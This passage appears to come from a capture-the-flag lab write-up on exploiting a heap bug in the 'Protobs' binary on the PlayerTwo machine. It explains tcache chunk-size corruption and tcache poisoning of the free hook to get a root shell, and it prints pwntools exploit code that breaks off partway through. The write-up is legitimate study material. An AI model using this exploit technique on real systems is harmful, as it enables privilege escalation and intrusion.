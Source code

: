 Setting the chunk size header of chunk 10 to 0x100 leaves the chunk inside the 0x190 tcache bin but sets its size to 0x100. Adding an empty chunk will now allocate a chunk at the same address where the previous 0x180 chunk was located however freeing it will put it into the 0x100 tcache bin. And if we now allocate a chunk size of 0x180 it will use the manipulated chunk size from the 0x190 tcache (because 0x180 will need 0x190 of memory space). But as we have changed its header from 0x191 to 0x100 it will be put into the 0x100 tcache bin thus we are having two chunks of size 0x100 in the tcache 0x100 bin but both point to the same address!
{: .text-justify} 

```python
# Dummies
add(0x30)	# Dummies are necessary to get two config _descriptions_ aligned right
add(0x30)	# after each other so that it is possible to overwrite the second chunk
		# size header. The size is deliberately set at 0x30, because this will
free(9)		# result in a chunk size of 0x41 in memory, which is also used for the 
free(10)	# config _name_. Freeing these two chunks results in 4 free 0x40 chunks.
# Allocate config descriptions adjacent in memory
add(0x58, 'A'*0x58)	# Allocation of size >0x40 will do the following: allocate 0x40 of the
add(0x180, 'B'*0x100)	# first dummy for config name and allocate 0x58 _after_ the dummies,
free(10)		# because there is no space for it earlier. Same goes for 0x180:
free(9)			# 0x40 of the dummy and 0x180 _right after_ the 0x58 chunk.
# /bin/sh and null byte overwrite the chunksize header from 180 to 100
add(0x58, 'A'*0x58)	# As the string will be terminated after the first null byte,
free(9)			# we have to do this in two steps. Overwrite first, free...
add(0x58, '/bin/sh\x00')# ... and write /bin/sh plus the null byte and leave the rest.

add()			# Adding an empty config will allow us to free the same address 
free(10)		# to the tcache 0xf0 bin twice
add(0x180, "A"*0x10)	# Because it thinks there is an 180 size chunk at this address it'll
free(10)
```
{% include figure image_path="/assets/images/playerTwo/tcache.png" alt="this is a placeholder image" caption="Upper: Chunk 10 inside the 0x190 tcache bin but with size 0x100.<br/> Lower: Two chunks of size 0x100 inside the 0x100 tcache bin but pointing to the same address." %}
### Tcache poisoning
Now we simply need to do the Tcache poisoning:
- allocate 3 chunks each of size 0xf0, which will need 0x100 in memory thus using the chunks from the 0x100 tcache bin
- write the free hook into the first chunk, junk into the second, and the system call into the third.
- Free chunk 9
- Become root.

## Complete Script
The complete script and the pure joy running it:
```python
#!/usr/bin/env python3

from pwn import *

libc = ELF('./libc.so.6')

#p = process('./Protobs') 
sshConn = ssh(host='10.10.10.170', user='observer', keyfile='id_rsa')
p = sshConn.process('/opt/Configuration_Utility/Protobs')
def add(size=0, content=b'', config=b''):
    p.sendlineafter('protobs@player2:~$ ', str(2))
    # name through controller (6 items)
    p.sendlineafter('[ Game                ]: ', config)
    p.sendlineafter('[ Contrast            ]: ', '')
    p.sendlineafter('[ Gamma               ]: ', '')
    p.sendlineafter('[ Resolution X-Axis   ]: ', '')
    p.sendlineafter('[ Resolution Y-Axis   ]: ', '')
```